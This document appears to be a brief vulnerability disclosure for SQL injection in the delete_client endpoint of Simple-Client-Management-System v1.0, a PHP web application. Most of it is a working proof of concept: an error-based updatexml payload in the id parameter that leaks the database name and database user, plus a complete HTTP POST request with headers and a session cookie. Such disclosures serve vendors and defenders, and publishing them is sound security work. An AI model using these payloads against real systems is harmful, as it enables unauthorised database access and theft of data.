# Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Master.php?f=delete_client

Vulnerability location: /cms/classes/Master.php?f=delete_client, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /cms/classes/Master.php?f=delete_client HTTP/1.1
Host: 192.168.1.19
Content-Length: 61
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cms/admin/?page=client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5u3dthmlo3ajo2g7k8pfvb4g8h
Connection: close

id=1' and updatexml(1,concat(0x7e,(select user()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164883212-c4aad4eb-8592-4956-b633-bdc7e49f91bd.png)
